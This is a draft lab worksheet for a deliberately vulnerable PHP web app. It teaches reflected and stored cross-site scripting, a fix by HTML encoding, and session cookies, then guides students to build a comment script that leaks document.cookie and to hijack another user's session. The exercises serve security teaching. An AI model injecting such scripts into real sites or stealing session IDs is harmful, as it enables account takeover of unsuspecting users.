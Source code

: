 **DRAFT**

Worksheet
========================================================================

Preparation
___________

Start the Virtual Machine and use a browser to navigate to the
web application (port 12342) and Usermin (port 12323).

After logging in, Usermin will show you the contents of ``/home/student``, from
which you can access the web application's code in the ``webapp`` folder.

The web application is a sample website designed to demonstrate
some security vulnerabilities, including those explained in this worksheet.

The first step is to familiarise with the website. You can create an
accout using the "Register" link at the top of the page. The website
allows users to login, view articles, comment them and


Unsanitised output
_____________________

Try and use the search function of the website. This page simply
searches the database for articles by their title.

In this website, the search input is not appropriately sanitised.
Notice that the search functionality of the website returns a webpage with
a heading which counts the number of results and echoes back the search
terms used (i.e. searching for ``Lorem ipsum`` will print ``4 results for "Lorem ipsum"``).

If you insert some HTML code into the input bar, you can notice that
this is not correctly filtered by the application.
For example, if you type ``<u>Hello</u>`` into the search bar and press enter,
you can see that the webpage will display the text underlined, as opposed
to displaying the string as it has been typed. This is
because the HTML ``<u>...</u>`` tag is responsible for underlining text,
and the unfiltered text is interpreted as HTML code by the browser.

**Exploit this functionality to display an arbitrary image from the internet**
**in the search page.**

Hint:
    Try searching the internet for ways to display an image in HTML.

This type of attack is known as *non-persistent*, because the result is
not saved in the website's database, and it needs the attacker to share
the link of the resulting search results page and it only affects users
which click on the malicious link.


Fix the search
______________

The webpage which is responsible for the search is available for you to
edit from Usermin in ``/home/student/webapp/pages/search.php``. You can
make changes to the file, save and reload the webpage to check the result.

If things go wrong and you want to restore the inital version of the file,
simply delete your VM and restart it from a fresh copy.

**TODO: Maybe provide something easier to reset the code?**

PHP files (``.php`` extension) contain HTML code and they may contain some PHP code
between ``<?php`` and ``?>`` tags. PHP code is processed by the server when
a webpage is requested, its output is mixed with the HTML page and only
HTML is returned to the client. Variable names start with a dollar sign (``$``) and all instructions must terminate
with a semicolon (``;``). You can learn more about the language at
http://php.net/manual/en/langref.php.

The ``prepareSearchTerm`` function is used to prepare the string before it
is used to search the articles of the website.

**Change the** ``prepareSearchTerm`` **function to fix the vulnerability.**
**Then test that the string you prepared in the previous excercise,**
**is now innocuous and can't be used to display an image.**

Hint:
    There are a couple of ways you can implement the fix to prevent
    HTML markup from being injected. Symbols, if are not
    intended to be interpreted as code, should be encoded in their
    hexadecimal HTML notation, e.g. ``£`` can be written
    as ``&#163;`` (or its memorable equivalent ``&pound;``).


Injecting Javascript Code
_________________________

Injecting simple formatting in webpages may temporarely
disrupt the layout of the webpage but is not generally a security risk.

Images can be a risk for privacy in some cases, for example if the
image is served by a webserver which is under the control of the attacker,
this can be used to retrieve information about the end user, such as
IP address, the browser used, and whether the user has opened the webpage
or not (this tecquique is known as `web beacon <https://en.wikipedia.org/wiki/Web_beacon>`_).

Probably, the most dangerous HTML code which can be injected into webpages
is Javascript code. This code is automatically executed by the web browser
as soon as it is encountered, and permits a broad range of operations, such as
the manipulation of the DOM (structure of the page), reading cookies and
sending HTTP requests.

There are two ways to insert Javascript in a HTML file:

1. Using a ``<script>...</script>`` tag, including the Javascript code directly
   in between the tags.

2. Hosting the script on different web server, and injecting it using:
   ``<script src="http://example.com/malicious-code.js"></script>``,
   where ``malicious-code.js`` is a file containing Javascript code. This
   is known **XSS**, or Cross-site scripting.

The comments section of the website is vulnerable to XSS but this time
the content of the comments is saved to the database, therefore this
application is vulnerable to *permanent XSS attacks*, which can be vary
dangerous.

**Try typing the following code in the comment box of an article, and observe**
**its effect on you and other users who visit the same page:**

.. code:: javascript

  <script> alert("Hello world"); </script>



How Sessions Work
-----------------

In order to understand identity thefth attacks, it is important to
understand how sessions work in web applications. If you already know
about sessions and cookies, feel free to skip this section.

HTTP (*Hypertext Transfer Protocol*) is the protocol used for the transmission
of webpages and is the foundation of websites and web applications. Its
development began in 1989, before modern web applications, and it was originally
designed to serve as a protocol for simple informative webpages. It is probably
for this reason that HTTP is a *stateless* protocol, meaning that its
specification has no concept of a permanent *session* between a client
and a server.

This may at first seem counterintuitive to readers,
because modern websites and web applications still use HTTP and
certainly do support authentication and other
systems that rely on the concept of the session.

**Cookies and sessions**

In order to keep track of the
current session information, most web applications use techniques such as
session cookies. Cookies are small text files which contain information that is
exchanged back and forth at every request between a client and a server.

At the first visit, the server assigns a random ID to the client, called the
session ID. This is communicated to the client. The server will store locally
any information regarding the current state of the application (the *session*
*data*), such as the authentication status of the user. The client, on the
other hand, will communicate its session ID to the server at every request,
so to receive webpages personalised on the basis of the logged in user.

The security of this method relies on the fact that the session information is
only accessible by the server, and that the session IDs are extremely
hard to guess.

You can try for yourself: most browsers allow users to view the list of cookies.
Try visiting a familiar website and logging in. At this point, you will probably
be able to see some cookie with a name such as "SESSION_ID", "SESSID" or "UID",
which will contain a long random string. Try deleting this cookie and refreshing
the webpage and you will probably be logged out of the website.


Using Javascript to steal the session ID
----------------------------------------

Javascript code has the ability to read and write cookies from and to the
browser. The cookies string can be accessed as the variable ``document.cookie``,
which contains all cookies in a key-value format (``key1=value1; key2=value2; ...``).

Most modern web browsers allow you access a Javascript interpreter,
which can be very useful for prototyping and debugging your Javascript code.
This can generally be accessed under the "Developer Tools" or "Inspector"
menus of your browser.

Open your favourite website and then this console. Typing ``document.cookie``
will probably show you a long list of cookies, which are used for statistics,
sessions, and advertisement profiling.

Intuitively, being able to read the session ID of another user and using it
on your computer, is normally enough to fool the website into believing you
are the other user: this will cause the website to log you in as the other
user.

Javascript code can be used to make HTTP requests in background. These are
known as AJAX requests. For example, you can use
Javascript to post a comment to the article with ID 1 (URL ``...&article_id=1``)
by writing:

.. code:: javascript

  jQuery.post("?page=comment.php",
              {article_id: 1, body: "My comment."});

This method, provided by the jQuery library (included for simplicity),
makes a HTTP POST request to the URL ``/?page=comment.php`` with payload
``article_id=1`` and ``body=My comment.``. You can learn more about the
``jQuery.post`` method at https://api.jquery.com/jquery.post/.

**Write a comment with some Javascript code that as soon as it is read,**
**will write a comment to another article, containing the cookie information**
**from the browser the user.**

Hint:
  Try combining the function presented above with the ``document.cookie``
  variable. Don't forget the ``<script></script>`` tags!

**Login with a second user and try visiting the article which has the**
**malicious comment. Verify that the**
**user unknowingly commented on the other article, publishing their session ID.**

**Try to impersonate the other user, without using their credentials.**

Hint:
  To change your session ID, you will need to edit your own cookies.
  Unfortunately, most modern browsers' developer tools allow you only
  to view and delete cookies, but not to edit them. You will need to
  download an extension for your browser in order to edit cookies.

  For example you can use Firebug for Firefox, which is available
  at https://getfirebug.com/downloads/. You can then activate the
  Firebug panel, open the Cookies tab and edit your cookies.

Generally XSS attacks rely on sending the cookies' content to a
third party web server, under the control of the attacker,
as opposed to simply publishing the cookies in the same website.
This is the reason these attacks are known as *Cross-Site*.
